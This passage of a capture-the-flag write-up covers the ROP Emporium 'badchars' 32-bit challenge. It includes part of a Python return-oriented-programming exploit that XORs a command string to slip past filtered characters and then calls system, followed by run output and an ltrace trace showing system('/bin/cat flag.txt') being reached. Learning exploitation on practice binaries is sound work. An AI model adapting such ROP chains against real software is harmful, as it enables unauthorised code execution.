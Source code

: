 ```python
    payload += xor

print payload
```
Now all I need to do is call system. I edited the last part of the script like this:
```python
#last section of the exploit script
# xor every character with 0x6
for i in xrange(18):
    payload += pop_ex
    payload += p32(bss_addr+i)
    payload += p32(0x6)
    payload += xor

payload += system
payload += p32(0xdeadbeef)
payload += p32(bss_addr)

print payload
```
This should work, hopefully. 
```
$ python exploit.py | ./badchars32
badchars by ROP Emporium
32bits

badchars are: b i c / <space> f n s
> Segmentation fault
```
It did not work...
I used `ltrace` to see if `system` was being called properly. `ltrace` gives you the ability to "trace" library calls.
```
$ python exploit.py | ltrace ./badchars32
__libc_start_main(0x804863b, 1, 0xffe82a94, 0x80488a0 <unfinished ...>
setvbuf(0xf7f65d80, 0, 2, 0)                     = 0
setvbuf(0xf7f65ce0, 0, 2, 0)                     = 0
puts("badchars by ROP Emporium"badchars by ROP Emporium
)                 = 25
puts("32bits\n"32bits

)                                 = 8
malloc(512)                                      = 0x8567160
memset(0x8567160, '\0', 512)                     = 0x8567160
memset(0xffe829b0, '\0', 32)                     = 0xffe829b0
puts("badchars are: b i c / <space> f "...badchars are: b i c / <space> f n s
)      = 36
printf("> "> )                                     = 2
fgets("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 512, 0xf7f655c0) = 0x8567160
memcpy(0xffe829b0, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 425) = 0xffe829b0
free(0x8567160)                                  = <void>
enable_breakpoint pid=19152, addr=0xdeadbeef, symbol=(null): Input/output error
system("/bin/cat flag.txt" <no return ...>
--- SIGCHLD (Child exited) ---
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```
Looks like it _did_ call `system` properly.
Later someone reminded me that sometimes, an exploit for this challenge may not work, and the creator(s) don't/doesn't know why. So I decided to leave it at this.
